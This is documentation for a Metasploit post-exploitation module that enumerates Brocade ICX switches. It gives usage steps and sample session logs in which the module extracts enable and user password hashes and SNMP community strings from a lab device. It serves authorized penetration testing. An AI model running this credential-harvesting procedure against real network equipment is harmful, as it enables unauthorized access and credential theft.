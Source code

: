 ## Vulnerable Application

This module has been tested on the following hardware/OS combinations.

* Brocade ICX 6430-24
  * Firmware: 08.0.20T311

The ICX config can be found [no passwords](https://github.com/h00die/MSF-Testing-Scripts/blob/master/brocade_icx6430_nopass.conf),
[hashes](https://github.com/h00die/MSF-Testing-Scripts/blob/master/brocade_icx6430_pass.conf)

This module will look for the follow parameters which contain credentials:

* FastIron
  * `show configuration`

!!! keep in mind 'password-display'
http://wwwaem.brocade.com/content/html/en/command-reference-guide/fastiron-08040-commandref/GUID-169889CD-1A74-4A23-AC78-38796692374F.html
!!! need to be able to give a password to enable

  * super-user-password
  * username
  * SNMP

## Verification Steps

1. Start msfconsole
2. Get a shell
3. Do: ```use post/networking/gather/enum_brocade```
4. Do: ```set session [id]```
5. Do: ```set verbose true```
6. Do: ```run```

## Options

## Scenarios

### ICX 6430-24, FastIron 08.0.20T311

#### SSH Session with password-display off

```
resource (brocade.rb)> use post/networking/gather/enum_brocade
resource (brocade.rb)> set session 1
session => 1
resource (brocade.rb)> set verbose true
verbose => true
resource (brocade.rb)> run
[*] In a non-enabled cli
[*] Getting version information
[*] OS: 08.0.30hT311
[+] Version information stored in to loot /root/.msf4/loot/20190601203656_default_10.0.4.51_brocade.version_751557.txt
[*] Gathering info from show configuration
[!] password-display is disabled, no password hashes displayed in config
[*] Post module execution completed
```

#### SSH Session with Enable run

```
resource (brocade.rb)> use post/networking/gather/enum_brocade
resource (brocade.rb)> set session 1
session => 1
resource (brocade.rb)> set verbose true
verbose => true
[*] In an enabled cli
[*] Getting version information
[*] OS: 08.0.30hT311
[+] Version information stored in to loot /root/.msf4/loot/20190601221921_default_10.0.4.51_brocade.version_839783.txt
[*] Gathering info from show configuration
[+] password-display is enabled, hashes will be displayed in config
[+] enable password hash $1$QP3H93Wm$uxYAs2HmAK0lQiP3ig5tm.
[+] User brocade of type 8 found with password hash $1$f/uxhovU$dST5lNskZCPQe/5QijULi0.
[+] ENCRYPTED SNMP community $MlVzZCFAbg== with permissions ro
[+] ENCRYPTED SNMP community $U2kyXj1k with permissions rw
[*] Post module execution completed
msf5 post(networking/gather/enum_brocade) > loot

Loot
====

host       service  type             name         content     info                   path
----       -------  ----             ----         -------     ----                   ----
10.0.4.51           brocade.version  version.txt  text/plain  Brocade Version        /root/.msf4/loot/20190601221959_default_10.0.4.51_brocade.version_003751.txt
10.0.4.51           brocade.config   config.txt   text/plain  Brocade Configuration  /root/.msf4/loot/20190601222004_default_10.0.4.51_brocade.config_998514.txt

msf5 post(networking/gather/enum_brocade) > creds
Credentials
===========

host       origin     service         public   private                             realm  private_type
----       ------     -------         ------   -------                             -----  ------------
10.0.4.51  10.0.4.51  22/tcp          enable   $1$QP3H93Wm$uxYAs2HmAK0lQiP3ig5tm.         Nonreplayable hash
10.0.4.51  10.0.4.51  161/udp (snmp)           $MlVzZCFAbg==                              Nonreplayable hash
10.0.4.51  10.0.4.51  161/udp (snmp)           $U2kyXj1k                                  Nonreplayable hash
10.0.4.51  10.0.4.51  22/tcp          brocade  $1$f/uxhovU$dST5lNskZCPQe/5QijULi0         Nonreplayable hash
```
